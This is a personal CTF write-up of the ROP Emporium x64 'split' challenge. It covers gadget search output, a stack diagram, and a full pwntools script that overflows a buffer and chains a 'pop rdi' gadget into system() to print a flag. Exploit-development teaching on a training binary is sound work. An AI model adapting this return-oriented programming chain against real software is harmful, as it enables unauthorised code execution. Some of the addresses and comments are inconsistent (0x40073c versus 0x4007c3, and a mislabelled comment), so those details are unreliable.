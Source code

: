 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-2
title: ROP x64 Challenge 2
status: in progress
type: post
published: true
comments: true
date: 2022-07-13
---
```


## Challenge 2: Split
> The elements that allowed you to complete ret2win are still present, they've just been split apart.  Find them and recombine them using a short ROP chain.


This is the first challenge that really gets into the coolness of ROP exploits. 

Where before we just needed to execute the ret2win function, now there is no single place we need to return to. However, there are 2 parts of code (which are disconnected) that we need to execute in this binary. We first need to place a pointer to the "/bin/cat flag.txt" string into rdi (which is where the first argument to a function is stored) and then we need to cause a system call to happen. Luckily the string and system call already exist in the program so all we have to do is put them together.


When we search within [[pwndbg]] for ways to edit the value of $rdi we get the following:

```
pwndbg> ropper -- --search "pop rdi"
[INFO] File: /tmp/tmplhu8fdig
0x00007ffff7fec24b: pop rdi; jne 0x7ffff80675b8; add rdx, 8; add rax, 3; mov qword ptr [rdi], rdx; ret;
0x00007ffff7fd09c1: pop rdi; pop rbp; ret;
0x00000000004007c3: pop rdi; ret;
```
The pop instruction takes the top value on the stack and places it in the register. Since we control the stack with our buffer overflow, we can control that value and make it whatever we want. The last one shown is ideal for us in this situation as it doesn't cause another bad side effects.

When we print the functions we can also see a location for the system call.
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system

```

So what we want to do is run 2 instructions sets, the first starting at 0x40073c and then jump to 0x400560. Luckily the first 2 instructions end with a ret instruction which jumps to the instructions held at the top of the stack. So we want the stack to look like this

```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | pop rdi loc    | # gadget to control rdi
8 bytes | ptr to string  | # the value we want to place in rdi
8 bytes | system call loc| # the system call function we want to call
8 bytes | -------------- |

```


This stack overwrite causes the pwnme function to return to the pop rdi instruction. The location of the "/bin/cat flag.txt" string is then placed into the rdi register. The program then returns to the system call location and prints the flag.

```python
#!/usr/bin/python3

from pwn import *

io = process('./split')
# The amount to fill the buffer
junk = b'A' * 0x20
# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
pop_rdi = p64(0x004007c3)

# The address of the "/bin/cat flag.txt"
addr_of_command = p64(0x00601060)

call_system = p64(0x00400560)
back_junk = b"B" * 20

payload = junk + new_bp + pop_rdi  + addr_of_command +  call_system
payload += back_junk

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")
print(io.clean(0.5).decode("utf-8"))
io.send(payload)
print(io.clean(0.5).decode("utf-8"))
input("exploit sent hit enter to end")
sleep(1)
```

